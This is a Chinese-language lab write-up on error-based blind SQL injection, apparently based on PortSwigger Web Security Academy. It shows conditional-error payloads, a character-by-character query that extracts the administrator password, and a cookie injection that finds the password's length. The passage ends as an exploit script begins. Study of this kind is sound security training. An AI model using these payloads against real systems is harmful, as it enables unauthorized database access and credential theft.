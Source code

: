 ```SQL
xyz' AND (SELECT CASE WHEN (1=2) THEN 1/0 ELSE 'a' END)='a 
xyz' AND (SELECT CASE WHEN (1=1) THEN 1/0 ELSE 'a' END)='a
```

這些輸入使用 `CASE` 關鍵字來測試條件，並根據表達式是否為真返回不同的表達式：

* 對於第一個輸入，`CASE` 表達式評估為 `'a'`，這不會導致任何錯誤。
* 對於第二個輸入，它評估為 `1/0`，這會導致除零錯誤。

如果錯誤導致應用程式的 HTTP 回應出現差異，您可以使用這個來確定注入的條件是否為真。

使用此技術，您可以透過一次測試一個字元來擷取資料：`xyz' AND (SELECT CASE WHEN (Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') THEN 1/0 ELSE 'a' END FROM Users)='a`

有不同的方式來觸發條件錯誤，不同的技術在不同的資料庫類型上效果最佳。更多詳細資訊請參閱 [SQL injection cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)。

::: tip Lab: [Blind SQL injection with conditional errors](https://portswigger.net/web-security/sql-injection/blind/lab-conditional-errors)

1. 這是一個正常的請求，根據題意，Cookie 的 TrackingId 值存在 SQL Injection 漏洞
    ```http
    GET /product?productId=3 HTTP/2
    Host: 0a3800c303fac50a80ac080700870089.web-security-academy.net
    Cookie: TrackingId=LqcMUIEREyrxNatY; session=NW9pXJXJeKgB5JmJ14U4EOhoz6T4aZQ2
    Sec-Ch-Ua: "Chromium";v="139", "Not;A=Brand";v="99"
    Sec-Ch-Ua-Mobile: ?0
    Sec-Ch-Ua-Platform: "macOS"
    Accept-Language: en-US,en;q=0.9
    Upgrade-Insecure-Requests: 1
    User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/139.0.0.0 Safari/537.36
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
    Sec-Fetch-Site: same-origin
    Sec-Fetch-Mode: navigate
    Sec-Fetch-User: ?1
    Sec-Fetch-Dest: document
    Referer: https://0a3800c303fac50a80ac080700870089.web-security-academy.net/
    Accept-Encoding: gzip, deflate, br
    Priority: u=0, i

    ```
2. 在後方加入一個引號回應狀態碼 500，驗證 SQLi 可行性
    ```http
    Cookie: TrackingId=LqcMUIEREyrxNatY';
    ```
3. 使用 Error-based 確認密碼 administrator 的密碼長度
    ```http
    Cookie: TrackingId=LqcMUIEREyrxNatY'||(SELECT CASE WHEN LENGTH(password)>1 THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||';
    ```
4. 當嘗試到 19 的時候，仍然回應狀態碼 500，直到長度大於 20 時，才回應狀態碼 200，由此可知密碼長度為 20。
5. 寫 Exploit 取得 administrator 的密碼：
    ```python=
    import requests
    import urllib3
